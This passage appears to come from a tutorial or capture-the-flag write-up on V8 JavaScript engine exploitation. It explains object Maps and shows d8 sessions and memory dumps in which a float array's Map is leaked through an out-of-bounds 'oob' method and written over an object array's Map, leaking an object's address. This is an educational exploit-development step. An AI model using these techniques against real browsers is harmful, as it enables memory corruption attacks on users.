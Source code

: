 Essentially, the Map defines how an object should be accessed. Whether you access an object by doing `object["field"]`, or you access an array by doing `array[index]`, the Map of that object / array will tell the JS engine where to find that specific element in memory. The reason Maps are used in the first place is because looking up values is very expensive. Maps act as a sort of dictionary. Multiple objects / arrays can share the same map if they have the same layout. Again, check out saelo's phrack paper for more details.

For example, remember the `JSArray` from above? If you try to access `a[0]`, the Map of the `JSArray` would tell the JS engine to go to the array, access its `elements` pointer, and return the value at `elements[2]` as that corresponds to the value at index 0 of `1.1` (Scroll up if this doesn't make sense).

Remember that we have the ability to overwrite an array's `Map` with one of our own. In this way, we can cause a type confusion within the JS engine if we overwrite one array's map with the map of a different array. 

In order to see how we can abuse this, let us see what a different array's map looks like. Let us take an array of Objects:
```
d8> var obj = {"A":1.1};
undefined
d8> var obj_arr = [obj];
undefined
d8> %DebugPrint(obj);
0x21885d38e0d9 <Object map = 0x17d0ea80ab39>
{A: 1.1}
d8> %DebugPrint(obj_arr);
0x21885d390561 <JSArray[1]>
[{A: 1.1}]

gef➤  x/4gx 0x21885d390561-1
0x21885d390560:	0x000017d0ea802f79	0x0000099148780c71
0x21885d390570:	0x000021885d390549	0x0000000100000000
gef➤  x/4gx 0x000021885d390549-1 <- access elements pointer
0x21885d390548:	0x0000099148780801	0x0000000100000000
0x21885d390558:	0x000021885d38e0d9	0x000017d0ea802f79
```

As you can see, the `Map` of an array of objects is a little different. Where the float array had a float value at index 0, the object array has the address of the actual `obj` in the same place. If you attempt to access `obj_arr[0]`, it will not just print out the floating point representation of the the memory address of `obj` at index 0, but it will somehow parse it and print `{A: 1.1}`.

So, what happens if we leak the map of a float array and overwrite the object array's map with it? Instead of treating index 0 as a memory address, it should just treat it as a float value. Accessing index 0 should then leak the address of `obj` as a float, right?
```
d8> var float_arr_map = float_arr.oob();
undefined
d8> var obj = {"A":1.1};
undefined
d8> var obj_arr = [obj];
undefined
d8> obj_arr.oob(float_arr_map); <- overwrite obj_arr's map
undefined
d8> "0x" + ftoi(obj_arr[0]).toString(16);
"0x3541b65506a9"
d8> %DebugPrint(obj);
0x3541b65506a9 <Object map = 0x391a4148ab39>
{A: 1.1}
```
